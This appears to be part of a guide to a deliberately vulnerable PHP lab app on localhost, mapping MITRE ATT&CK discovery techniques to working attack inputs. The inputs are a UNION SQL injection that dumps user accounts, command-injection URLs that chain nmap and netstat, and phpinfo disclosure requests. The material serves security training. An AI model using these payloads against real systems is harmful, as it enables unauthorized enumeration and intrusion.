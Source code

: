 
### 7. Discovery

#### T1087.001: Account Discovery - Local Account

**Description**: Enumerate local accounts.

**Vulnerable Component**: SQL injection + information disclosure

**Attack Vector**:
```sql
' UNION SELECT id,username,email,role,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20 FROM users -- 
```

**Testing Steps**:
1. Use SQL injection to list all users
2. Identify usernames, roles, email addresses
3. Map organizational structure

**Alternative**:
```
http://localhost:8080/settings.php (displays current user info)
```

---

#### T1046: Network Service Discovery

**Description**: Discover services running on remote hosts.

**Vulnerable Component**: Command injection + network tools

**Attack Vector**:
```bash
http://localhost:8080/settings.php?ping=localhost;nmap+-sV+internal-network
http://localhost:8080/settings.php?ping=localhost;netstat+-an
```

**Testing Steps**:
1. Use command injection
2. Run network scanning tools
3. Discover other services and systems

---

#### T1082: System Information Discovery

**Description**: Gather information about the system.

**Vulnerable Component**: `settings.php` system information panel + phpinfo

**Attack Vector**:
```
http://localhost:8080/settings.php
http://localhost:8080/settings.php?phpinfo=1
http://localhost:8080/index.php?info=1
```

**Information Disclosed**:
- PHP version
- Server software
- Operating system
- Document root
- Server IP address
- Environment variables
- Loaded PHP modules
